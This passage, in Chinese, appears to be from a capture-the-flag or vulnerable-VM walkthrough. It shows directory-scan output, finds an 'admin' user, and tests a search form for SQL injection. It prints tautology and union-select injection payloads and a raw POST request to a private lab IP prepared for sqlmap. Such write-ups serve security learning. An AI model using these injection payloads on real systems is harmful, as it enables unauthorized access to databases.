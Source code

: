 ```txt
/server-status/       (Status: 403) [Size: 278]
```

## 漏洞利用

### 敏感目录探查

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116473.png" alt="image-20240321172644171" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116474.png" alt="image-20240321172957301" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116475.png" alt="image-20240321173026118" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116476.png" alt="image-20240321173107773" style="zoom: 33%;" />

发现用户名`admin`，刷新一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116477.png" alt="image-20240321174512957" style="zoom:50%;" />

### 尝试sql注入

```bash
1' or '1' = '1
```

有回显，

```sql
1' or '1' = '2
```

无回显，说明sql注入漏洞存在，尝试联合注入：

```sql
-1' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() #
```

未果，继续试探，没成功，`sqlmap`梭一下，看看是咋注入的。	

```text
POST /results.php HTTP/1.1
Host: 10.160.58.244
Content-Length: 10
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.160.58.244
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.160.58.244/search.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

search=ctf
```
